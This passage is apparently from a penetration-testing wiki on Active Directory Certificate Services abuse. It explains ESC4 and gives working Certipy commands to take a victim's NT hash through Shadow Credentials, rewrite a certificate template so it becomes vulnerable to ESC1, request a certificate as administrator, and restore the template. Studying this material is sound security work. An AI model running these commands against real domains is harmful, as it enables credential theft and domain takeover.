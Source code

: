 ### Abuse

An example of a privesc like the previous one:

<figure><img src="../../../.gitbook/assets/image (811).png" alt=""><figcaption></figcaption></figure>

ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

As we can see in the path above, only `JOHNPC` has these privileges, but our user `JOHN` has the new `AddKeyCredentialLink` edge to `JOHNPC`. Since this technique is related to certificates, I have implemented this attack as well, which is known as [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab). Here’s a little sneak peak of Certipy’s `shadow auto` command to retrieve the NT hash of the victim.

```bash
certipy shadow auto 'corp.local/john:Passw0rd!@dc.corp.local' -account 'johnpc'
```

**Certipy** can overwrite the configuration of a certificate template with a single command. By **default**, Certipy will **overwrite** the configuration to make it **vulnerable to ESC1**. We can also specify the **`-save-old` parameter to save the old configuration**, which will be useful for **restoring** the configuration after our attack.

```bash
# Make template vuln to ESC1
certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old

# Exploit ESC1
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC4-Test -upn administrator@corp.local

# Restore config
certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -configuration ESC4-Test.json
```

## Vulnerable PKI Object Access Control - ESC5

### Explanation
